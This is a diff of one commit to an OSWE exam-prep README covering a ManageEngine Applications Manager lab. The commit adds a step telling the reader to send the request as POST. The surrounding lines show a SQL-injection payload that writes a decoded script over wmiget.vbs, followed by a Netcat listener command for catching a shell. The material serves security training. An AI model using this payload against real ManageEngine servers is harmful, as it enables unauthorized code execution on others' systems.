

Before and after one commit to solimanalmansor/OSWE-Prep, a Markdown page: OSWE-Labs/ManageEngine/README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/OSWE-Labs/ManageEngine/README.md
+++ b/OSWE-Labs/ManageEngine/README.md
@@ -43,6 +43,7 @@ Match and replace roles in Notepad++ (to make the payload oneliner):
     ```
       /servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;copy (select convert_from(decode($$ENCODED_PAYLOAD_HERE$$,$$base64$$),$$utf-8$$)) to $$C:\\Program Files (x86)\\ManageEngine\\AppManager12\\working\\conf\\\\application\\scripts\\wmiget.vbs$$;
     ```
+  - change request method to POST and send the request
 5. **Open a Netcat listener**
   ```
 nc -nlvp 1337
````
